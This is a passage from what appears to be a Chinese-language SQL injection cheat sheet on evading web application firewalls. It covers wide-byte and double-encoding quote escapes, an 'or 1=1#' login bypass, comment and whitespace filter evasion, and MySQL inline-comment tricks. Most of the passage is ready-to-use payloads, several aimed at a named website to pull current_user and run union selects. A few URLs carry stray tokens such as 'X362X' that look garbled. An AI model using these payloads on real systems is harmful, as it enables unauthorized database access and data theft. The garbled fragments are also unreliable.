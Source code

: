 ### 单双引号

```
GBK编码 %df'
UNICODE编码 %2527
```

单引号逃逸：

* \

```
# 用户名为username
SQL> select * from db where name='username\' and passwd=' or 1=1#
```

### 过滤 //

```
过滤：http://www.90jishuwang.com/main/news/id/1/X362X*/||/**/lpad(first_name,7,1).html
绕过：http://www.90jishuwang.com/main/news/id/1%0b||%0blpad(first_name,7,1).html
```

## 注释和编码绕过

### 注释符

```
# %23
-- 后面要加空格
/**/ 只加前半个也行
;%00 Nullbyte
` Backtick
```

```
SQL> 1+un/**/ion+se/**/lect+1,2,3 -- 空格
```

### 巧用注释和编码：

```
绕过：http://www.90jishuwang.com/news.php?id=0+div+1+union%23fooX381X%2F*bar%0D%0Aselect%23foo%0D%0A1%2C2%2Ccurrent_user
解析：
0 div 1 union#foo*/*/bar
select#foo
1,2,current_user
```

MySQL Inline Comments：

```
/*!12345select*//*!12345user*/ from mysql.user;
绕过：http://www.90jishuwang.com/news.php?id=1/*!12345!UnIoN*/SeLecT+1,2,3 --
```
